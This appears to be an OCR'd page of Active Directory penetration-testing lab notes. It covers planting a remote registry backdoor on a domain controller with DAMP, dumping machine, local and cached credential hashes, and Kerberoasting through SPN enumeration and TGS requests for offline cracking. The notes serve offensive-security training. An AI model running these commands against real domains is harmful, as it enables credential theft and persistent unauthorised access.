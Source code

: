 #### Using DAMP, with admin privs on remote machine
```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose 
```

#### As student1, retrieve machine account hash: 
```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose 
```

#### Retrieve local account hash: 
```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose 
```

#### Retrieve domain cached credentials: 
```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

# Learning Objective 13

• Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access. 

• Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI.

# Kerberoast

• Offline cracking of service account passwords. 

• The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack. 

• Service accounts are many times ignored (passwords are rarely changed) and have privileged access. 

• Password hashes of service accounts could be used to create Silver tickets.

#### Find user accounts used as Service accounts
```powershell
# PowerView
Get-NetUser –SPN

# AD Module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```

#### Request a TGS
```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```
